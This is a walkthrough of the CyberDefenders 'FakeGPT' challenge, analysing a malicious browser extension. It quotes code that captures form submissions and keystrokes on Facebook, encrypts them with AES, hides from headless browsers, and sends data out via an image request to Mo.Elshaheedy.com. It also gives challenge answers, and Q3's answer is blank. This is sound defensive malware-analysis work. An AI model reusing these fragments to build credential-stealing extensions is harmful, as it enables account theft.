# FakeGPT - PCAP Analysis (CyberDefenders)

## Scenario

Your cybersecurity team has been alerted to suspicious activity on your organization's network.
Several employees reported unusual behavior in their browsers after installing what they believed to be a helpful browser extension named "ChatGPT".
However, strange things started happening: accounts were being compromised, and sensitive information appeared to be leaking.
Your task is to perform a thorough analysis of this extension identify its malicious components.

## References

* [https://cyberdefenders.org/blueteam-ctf-challenges/fakegpt/](https://cyberdefenders.org/blueteam-ctf-challenges/fakegpt/)

### Q1 - Which encoding method does the browser extension use to obscure target URLs, making them more difficult to detect during analysis?

I first checked `manifest.json` to understand how the extension was loaded and which files were involved.
The manifest showed that the extension injects this content script into all pages:

```text
core/app.js
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image.png">
  
</a>

That gave me the next file to inspect.

Inside `app.js`, I found the `targets` array containing an encoded-looking string:

```text
d3d3LmZhY2Vib29rLmNvbQ==
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-1.png">
  
</a>

At that point, I did not assume the encoding immediately.

I checked the rest of the code to look for hints about how the extension handles encoded or encrypted data.

In `crypto.js`, I noticed that the extension already uses Base64 when converting encrypted data:

```text
encrypted.toString(CryptoJS.enc.Base64)
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-2.png">
  
</a>

Since the target string also had a typical Base64 structure, especially the `==` padding at the end, I tested it as Base64.

After decoding it, the result was:

```text
www.facebook.com
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-3.png">
  
</a>

This confirmed that the extension was using Base64 to obscure the target URL.

**Answer:** `base64`

### Q2 - Which website does the extension monitor for data theft, targeting user accounts to steal sensitive information?

Once the Base64 string in the `targets` array was decoded, it revealed the monitored website.

So Q2 follows from the same decoded value used in Q1.

**Answer:** `www.facebook.com`

### Q3 - Which type of HTML element is utilized by the extension to send stolen data?

In `app.js`, the `sendToServer(encryptedData)` function creates a new image object:

```text
var img = new Image();
```

Then it sets the `src` attribute to the exfiltration URL:

```text
img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
```

Finally, it appends it to the page:

```text
document.body.appendChild(img);
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-4.png">
  
</a>

This means the extension uses an HTML image element to send the stolen data:

```text

```

**Answer:** ``

### Q4 - What is the first specific condition in the code that triggers the extension to deactivate itself?

In `manifest.json`, the background script is defined as:

```text
system/loader.js
```

That is why I checked `loader.js`: it is loaded in the background when the extension starts, so anti-analysis or self-disabling logic would likely be there.

In `loader.js`, the first condition is:

```text
navigator.plugins.length === 0
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-5.png">
  
</a>

It appears inside this check:

```text
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
```

This is an anti-analysis check.

A normal browser usually has some plugins or browser components exposed through `navigator.plugins`, while sandboxed, automated, or headless environments may expose none.

If that condition is true, the extension shows:

```text
Virtual environment detected. Extension will disable itself.
```

Then it stops normal behavior by returning `false` in the runtime message listener.

**Answer:** `navigator.plugins.length === 0`

### Q5 - Which event does the extension capture to track user input submitted through forms?

In `app.js`, the extension checks whether the current hostname is one of the monitored targets:

```text id="38mv1z"
if (targets.indexOf(window.location.hostname) !== -1) {
```

Inside that block, it registers an event listener on the document:

```text id="z1dvs2"
document.addEventListener('submit', function(event) {
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-6.png">
  
</a>

This is the relevant place because the question asks which event is captured to track user input submitted through forms.

The code then reads the submitted form:

```text id="yc3der"
let form = event.target;
let formData = new FormData(form);
```

and extracts username/email and password fields:

```text id="0c4yrw"
let username = formData.get('username') || formData.get('email');
let password = formData.get('password');
```

**Answer:** `submit`

### Q6 - Which API or method does the extension use to capture and monitor user keystrokes?

Right below the `submit` event listener, I found another listener used to capture keyboard input:

```text id="b76q0g"
document.addEventListener('keydown', function(event) {
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-7.png">
  
</a>

Inside it, the extension reads the pressed key with:

```text id="wp3me5"
event.key
```

Then it sends the captured value as a keystroke:

```text id="ep2krf"
exfiltrateData('keystroke', key);
```

**Answer:** `keydown`

### Q7 - What is the domain where the extension transmits the exfiltrated data?

In `app.js`, the exfiltration happens inside:

```text
function sendToServer(encryptedData)
```

The function creates an image object and sets its `src` to an external URL:

```text
img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
```

Since the question asks for the **domain**, I extracted only the domain part from the URL.

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-8.png">
  
</a>

**Answer:** `Mo.Elshaheedy.com`

### Q8 - Which function in the code is used to exfiltrate user credentials, including the username and password?

In `app.js`, the function name is already explicit:

```text
exfiltrateCredentials(username, password)
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-10.png">
  
</a>
There was not much to infer here, because the function name clearly describes what it does.

Inside the function, the extension builds a payload containing:

```text
user
pass
site
```

Then it encrypts the payload and sends it to the external server:

```text
sendToServer(encryptedPayload);
```

CyberDefenders expected the function call with the semicolon included.

**Answer:** `exfiltrateCredentials(username, password);`

### Q9 - Which encryption algorithm is applied to secure the data before sending?

In `crypto.js`, the encryption function shows the algorithm directly:

```text
const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
```

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-9.png">
  
</a>

The relevant part is:

```text
CryptoJS.AES.encrypt
```

**Answer:** `AES`

### Q10 - What does the extension access to store or manipulate session-related data and authentication information?

In `manifest.json`, the extension requests several browser permissions:

<a href="screenshots/033-fakegpt-malware-analysis-cyberdefender-image-11.png">
  
</a>

The one related to session data and authentication information is:

```text
cookies
```

This is the correct permission because browser cookies are commonly used to store or maintain session-related data, such as login sessions, authentication tokens, and user tracking identifiers.

The other permissions have different purposes:

```text
tabs                 -> access browser tabs
http://*/*           -> access HTTP pages
https://*/*          -> access HTTPS pages
storage              -> store extension data
webRequest           -> inspect web requests
webRequestBlocking   -> intercept or block web requests
cookies              -> access authentication/session cookies
```

**Answer:** `cookies`
